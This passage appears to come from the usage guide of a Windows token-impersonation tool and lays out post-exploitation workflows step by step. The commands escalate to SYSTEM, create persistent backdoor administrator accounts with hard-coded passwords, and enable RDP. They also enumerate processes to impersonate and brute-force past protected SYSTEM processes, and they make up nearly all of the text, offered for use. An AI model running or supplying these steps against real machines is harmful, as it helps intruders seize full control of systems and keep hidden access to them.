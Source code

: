 # Step 3: Get SYSTEM
.\TokenImpersonate.exe auto

# Step 4: Dump credentials or create backdoor
.\TokenImpersonate.exe brute SYSTEM adduser persist P@ss123!
.\TokenImpersonate.exe brute SYSTEM rdp

Workflow 8: Post-Exploitation Enumeration
Scenario: Enumerate what you can access before taking action
powershell# Step 1: List all processes you can impersonate
.\TokenImpersonate.exe list > processes.txt

# Step 2: Identify high-value targets
type processes.txt | findstr "SYSTEM"
type processes.txt | findstr "Administrators"
type processes.txt | findstr "HIGH"

# Step 3: Target the safest SYSTEM process
.\TokenImpersonate.exe list | findstr "spoolsv"
# spoolsv.exe is usually PID 540

# Step 4: Use it for your objective
.\TokenImpersonate.exe 540 adduser backup SecurePass456!

Workflow 9: Bypassing Protected Processes
Scenario: Some SYSTEM processes are protected, need to find accessible ones
powershell# Step 1: Try auto first
.\TokenImpersonate.exe auto
# May fail if all auto-selected processes are protected

# Step 2: Brute force to find accessible process
.\TokenImpersonate.exe brute "NT AUTHORITY\SYSTEM"
# This tries all SYSTEM processes until one works

# Step 3: Note which PID succeeded
# [+] Successfully impersonated PID 1444
